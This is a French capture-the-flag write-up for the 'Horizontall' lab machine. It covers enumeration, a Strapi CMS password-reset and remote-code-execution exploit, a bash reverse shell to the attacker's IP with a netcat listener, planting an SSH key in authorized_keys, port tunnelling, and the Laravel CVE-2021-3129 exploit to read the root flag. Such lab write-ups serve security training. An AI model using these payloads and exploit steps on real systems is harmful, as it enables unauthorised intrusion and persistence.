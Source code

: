 # Horizontall [Linux] Easy

# — 1.Enumeration —

## Nmap

`nmap -A -sS -sV -p- 10.10.11.105`

```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

Quand on se rend sur le port 80 on à une redirection à horizontall.htb on va changer un paramètre de notre DNS avec cette commande :

`echo "10.10.11.105 horizontall.htb" | sudo tee -a /etc/hosts`

## Ffuf

```bash
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
favicon.ico             [Status: 200, Size: 4286, Words: 8, Lines: 1]
img                     [Status: 301, Size: 194, Words: 7, Lines: 8]
index.html              [Status: 200, Size: 901, Words: 43, Lines: 2]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
```

## Le Site

Aucun bouton du site ne marche tout peux nous renvoyer su la page d’accueil on ne peux pas aller dans les dossiers que ffuf à trouver. On peux quand même regarder le js de la page pour trouver un indice. Il y a [app.c68eb462.js](http://horizontall.htb/js/app.c68eb462.js) qui est un code en 1 seul ligne ce qui rend difficile la lecture mais nous pouvons utiliser [https://beautifier.io/](https://beautifier.io/) pour rendre le code plus lisible.

Dans le code de app[.c68eb462.js](http://horizontall.htb/js/app.c68eb462.js) se rend compte qu’on utilise du Vue js c’est d’ailleurs le logo du site et on vois dans les méthodes  du script qu’on utilise le site 

[](http://api-prod.horizontall.htb/reviews)

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled.png)

On re-modifie notre fichier hosts

`echo "10.10.11.105 api-prod.horizontall.htb" | sudo tee -a /etc/hosts`

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%201.png)

Nous sommes donc sur un sous-domaine du site précédent nous pouvons énumérer le site

## Ffuf Le 2

```bash
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
```

On à donc la page admin du CMS qui est strapi et nous pouvons essayer de nous identifier.

# — 2.Exploit —

On trouve avec une recherche Google un CVE de Strapi qui est un RCE et nous permet de mettre le mot de passe que nous voulons sur l’admin panel 

On trouve avec un exploit sur exploit-db : [https://www.exploit-db.com/exploits/50239](https://www.exploit-db.com/exploits/50239)

```bash
python3 cmsexploit.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU0NDQzNTE5LCJleHAiOjE2NTcwMzU1MTl9.a8Os4RNhGakrtQ7jfHb106kAUbzaGehXW0IL-X6AgAg
$> bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

En même temps nous mettons un listener `nc -lvnp 1234`

Nous avons maintenant un accès admin sur le panel du CMS et sur la machine en tant que strapi.

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%202.png)

# — 3.Mouvement Latéral —

On va d’abords invoqué tty pour avoir un shell entier :

```bash
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
*Enter deux fois*
```

On peut pas faire de `sudo -l`

On peut aussi déjà accéder à user.txt pour récupérer le flag.

On créé un serveur avec python `python -m http.server 80` et on récupére un script d’énumération comme linpeas.sh.

On trouve des Ports Actif sur la machine et ces ports n’avait pas été trouvé par notre scan nmap :

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                                                  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1704/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Avec ce site [https://www.speedguide.net/port.php?port=3306](https://www.speedguide.net/port.php?port=3306) on peux trouver ce que sont ces ports par défaut selon nmap :

1337 : Nullsoft WASTE encrypted P2P app (Pas certain)

3306 :  mySQL

8000 : Une alternative à http 

- On peux utiliser Curl pour avoir une meilleur idée de ce qu’il y à sur ces ports

- curl 127.0.0.1:1337 Est le sous domaine du site

- curl 127.0.0.1:8000 Est un nouveau sous domaine du site utilisant Laravel

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%203.png)

## Accès par SSH

Pour ce que nous voulons faire par la suite nous devons avoir un accès par ssh donc nous allons créé sur notre ordinateur un couple de clé `ssh-keygen -f strapi` copié la clé publique et l’écrire sur la machine adverse dans un nouveau dossier .ssh  un ficher authorized_keys contenant notre clé publique avec la commande `vi authorized_keys`

On peux finalement se connecté avec la commande : `ssh -i strapi [strapi@10.10.11.105](mailto:strapi@10.10.11.105)`

On se créé un tunnel sur le port 8000 :

`ssh -i strapi -L 8000:localhost:8000 strapi@horizontall.htb`

## Troisième Site

Maintenant que nous avons un tunnel nous pouvons aller sur [http://localhost](http://localhost):8000 

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%204.png)

## Exploitation Final

Laravel à lui aussi un CVE et un https://github.com/nth347/CVE-2021-3129_exploit qui est un RCE nous permettant d’attraper le dernier flag.

Dernière commande :

`./cve-2021-3129.py [http://localhost:8000](http://localhost:8000/) Monolog/RCE1 'cat /root/root.txt'`

Nous récupérons avec cette commande le flag root.

# Notes et Ressources :

[https://www.geeksforgeeks.org/vue-js-methods/](https://www.geeksforgeeks.org/vue-js-methods/)

Ne marche pas sur la machine mais intéressant d’énumérer les sous domaines des le début avec wfuzz :

`wfuzz --hh 194 -u http://horizontall.htb -H "Host: FUZZ.horizontal.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`

On pouvait au lieu de tester à l’’aveugle le RCE trouver la version du CMS avec curl :

```
curl http://api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}
```